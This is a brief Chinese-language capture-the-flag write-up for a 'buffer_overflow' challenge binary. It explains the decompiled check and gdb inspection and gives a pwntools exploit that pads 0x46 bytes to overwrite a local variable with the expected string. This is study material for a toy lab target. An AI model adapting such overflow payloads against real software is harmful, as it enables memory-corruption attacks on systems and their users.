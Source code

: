 # buffer_overflow

![[Pasted image 20250115091055.png]]
反编译后可以看出当`local_62`与`ans`中的内容一样是就可以获取`flag`。
![[Pasted image 20250115091300.png]]
可以看到ans的内容
![[Pasted image 20250115091337.png]]
打开gdb调试可以看到`local_62`内内容的位置，构造`payload`将其覆盖为`ans`内容即可。
exp:
```python
from pwn import *

  

local = True

if local:

p = process("./buffer_overflow")

pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

payload = b'a' * 0x46 + b'Limiter and Wings are beautiful girls!'

p.send(payload)

p.interactive()
```
flag:
![[Pasted image 20250115091529.png]]
